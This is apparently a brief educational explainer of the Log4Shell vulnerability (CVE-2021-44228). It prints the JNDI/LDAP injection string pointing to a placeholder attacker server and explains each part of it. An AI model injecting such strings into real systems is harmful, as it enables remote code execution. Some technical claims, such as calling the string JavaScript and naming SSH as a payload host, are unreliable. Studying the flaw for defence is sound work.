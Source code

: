 .   __CVE ID:__ CVE-2021-44228
__Affected software__ - Java
__Used in -__ Minecraft hack

### What is it ?

Log4j is a Java library used to log messages within software and has the ability to communicate with other services on a system. This communication functionality is where the vulnerability exists, **providing an opening for an attacker to inject malicious code into the logs so it can be executed on the system**.

### What does it log ?

- Messages
- Bugs
- Input commands
- Information for calculating usage data
- Information for debugging 

### How does it work ?

- The attacker setups LDAP (Lightweight Directory Access Protocol) server containing malicious payload.
- The attacker then inputs malicious JavaScript code into an input field inside the target application.

```
${jndi:ldap://attacker_server:1389/payload}
```

- The inputted code then gets sent to the logs of the server, and rather then the server parsing it as text and just logging it, it evaluates the code.
- The code then instructs `jndi`  to fetch and run a malicious payload hosted by the attacker in a remote `ldap` server. 
- The executed payload can then be used to get remote access to the target or run arbitrary code in the target depending on the payload code.  
### How does the code work ?

1. `${}`: Placeholder for the actual Log4j expression. 

2. `jndi`: This part specifies that a JNDI lookup is being performed. JNDI is a Java API for accessing directory and naming services, and it can be used to look up resources and execute commands.

3. `ldap://attacker_server:1389/payload`: This is the JNDI URL that points to an LDAP server controlled by an attacker. 

   - `ldap://`: This indicates that the protocol being used is LDAP, which is a commonly used protocol for accessing directory services.
   
   - `attacker_server`: This is the hostname or IP address of the attacker's server. 

   - `1389`: This is the port number on which the attacker's LDAP server is listening. 

   - `/payload`: This part is specific to the attacker's payload. The payload is where the attacker can potentially execute arbitrary code on the target system.

*The server in which the payload is being hosted does not necessarily have to be a LDAP server, it can be a SSH or a regular web server.*